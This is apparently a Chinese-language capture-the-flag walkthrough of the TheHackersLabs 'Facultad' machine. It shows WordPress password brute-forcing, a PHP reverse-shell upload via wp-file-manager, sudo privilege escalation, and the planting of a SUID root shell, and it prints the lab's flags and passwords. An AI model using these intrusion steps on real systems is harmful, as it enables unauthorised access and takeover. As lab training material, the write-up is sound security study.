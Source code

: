 # Facultad

2025.02.24 https://thehackerslabs.com/facultad/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

扫描目录发现 wordpress : http://192.168.5.40/education/ , 同时发现域名 facultad.thl 将其添加到 hosts 文件中，wpscan 进行扫描 http://facultad.thl/education/ ，发现用户 Facultad 和 facultad ，发现插件 akismet 和 wp-file-manager 但是这 2 个插件目前没漏洞。

```
wpscan --url http://facultad.thl/education/ -e u,ap,at,tt,cb --plugins-detection mixed
```

发现一张图片 http://192.168.5.40/images/facultad.jpg , steghide 查看存在隐写，进行解密：

```
steghide --extract -sf facultad.jpg
密码直接回车
wrote extracted data to "mensaje.txt".
```

内容翻译过来是：我将与你的邮政局联系。得到了 3 个用户名 mensaje、gabri 和 vivian ，尝试一下 hydra 简单密码爆破 ssh 没得到结果。

尝试用更大的字典 rockyou 爆破 wordpress 中的 facultad 用户的密码：

```
wpscan --url http://facultad.thl/education/ -U facultad -P /usr/share/wordlists/rockyou.txt -t 64
```

最终得到密码: asdfghjkl , 使用此密码登陆。尝试使用上传 zip 到 Theme 或者是到 Media 的方法都不行，提示文件夹无权限写入，只好看这个 wordpress 使用的 wp-file-manager 可以上传 php 文件，然后访问反弹 shell 脚本文件到 kali 上：

```
www-data@TheHackersLabs-facultad:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

先拿到了 user flag：

```
www-data@TheHackersLabs-facultad:/home/vivian$ cat user.txt
mcxvbniou345897hjbhjzx
```

sudo -l 显示 (gabri) NOPASSWD: /usr/bin/php 可以提权到 gabri：

```
sudo -u gabri php -r "system('/bin/bash');"
```

经过枚举发现邮件文件，就是前面那个 txt 中说的邮局联系你：

```
cat /var/mail/gabri/.password_vivian.bf

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++.-----------.+++++++++++++++.---------------.+++++++++++++++++++.--.---.-.-------------.<<++++++++++++++++++++.--.++.+++.
```

Brainfuck 解码得到: lapatrona2025

应该是一个用户的密码，看看是哪个用户的，发现是 vivian 用户的，ssh 进行登陆，再次 sudo -l 发现 (ALL) NOPASSWD: /opt/vivian/script.sh 直接覆盖文件内容提权到 root：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' >> /opt/vivian/script.sh
sudo -u root /opt/vivian/script.sh
```

最后得到 root flag:

```
vivian@TheHackersLabs-facultad:~$ /tmp/rootbash -p
rootbash-5.2# cd /root
rootbash-5.2# ls
root.txt
rootbash-5.2# cat root.txt
nbfgjyui4r57834sdbhjcvhz
```
